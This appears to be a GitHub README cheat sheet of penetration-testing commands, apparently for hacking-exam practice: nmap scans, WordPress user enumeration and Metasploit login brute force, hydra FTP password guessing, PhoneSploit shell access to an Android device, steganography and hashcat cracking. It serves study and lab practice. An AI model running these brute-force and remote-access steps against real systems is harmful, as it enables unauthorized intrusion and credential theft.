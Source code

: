 ### 1. Find the IP target.
  $ ip addr
  
### 2. Nmap scan all
  $ nmap IP -sV -sC -p -O
  
### 3. IPs Service, RDP(3389), SQL(3306), FTP(21) check
 ```
  $ nmap -Pn -p 3389 IP | grep open
  $ nmap -Pn -p 3306 IP | grep open
  $ nmap -Pn -p 21 IP | grep open
  ```
### 4. Windows Comman Line
  $ Net user

### 5. Wordlist location find
 ```
 $ locate wordlists
 $ locae rockyou.txt
```
### 6. WP scan (Wp Vulnerability)
  $ wpscan --url IP --enumerate u
```  
 => msfconsole 
use axiliary/scanner/http/wordpress_login_enum
PASS_FILE /root/Desktop/wordlists/Pass.txt
set RHOSTs IP
set RPORT PORT
set TARGETURI http://IP:port
set USERNAME admin
->run
```
### 7. FTP Passowrd find
  $ hydra -l user -P passlist.txt ftp://IP

### 8. Prints the route that a packet takes to reach the host
  $ traceroute google.com

### 9. Android
```
  $ netdiscover -r IP/24   (got final IP)
  $ nmap -O IP
  
  apt install adb
  pip install colorama
  git clone https://github.com/aerosol-can/PhoneSploit
  cd PhoneSploit
  python3 phonesploit.py
  select 3 to connect new phone
  Add IP address of android device
  4 (Access shell on phone)
  IP address again of android device
  pwd > ls > cd sdcard > ls > cd downloads > cat file.txt
```
### 10. Stegography
  ```
  $ Snow.exe -C -p “given_password” file_name.txt  (Pass tu hobo = 'test')
  -C  compressing / uncompressing
  -p  password

  Open Stego (GUI tool):
     Open the exe > open and select file > click get
 ```
### 11. Cryptography
```
#### Identify:
https://hashes.com/en/tools/hash_identifier
https://www.onlinehashcrack.com/hash-identification.php
https://www.tunnelsup.com/hash-analyzer
#### Crak hash:
https://hashes.com/en/decrypt/hash
https://crackstation.net

  $ hash-identifier
  $ Hashcat -a 3 -m 900 hash.txt /rockyou.txt
  
  -a attack mode (3)
  -m hashtype (select number fom below)
   900 = md4
   1800 = SHA512CRYPT
   110  = SHA1 with SALT HASH
   0  = MD5
   100 = SHA1
   1400 = SHA256
  ``` 
## 10. Used Tools
```
Veracrypt
Cryptool
Snow
Bctextencoder
Md5 & sha1 checksum utility
Wpscan
Nmap
Metasploit
Hydra
Wireshark
Winscp
OWASP ZAP  
RDP
```
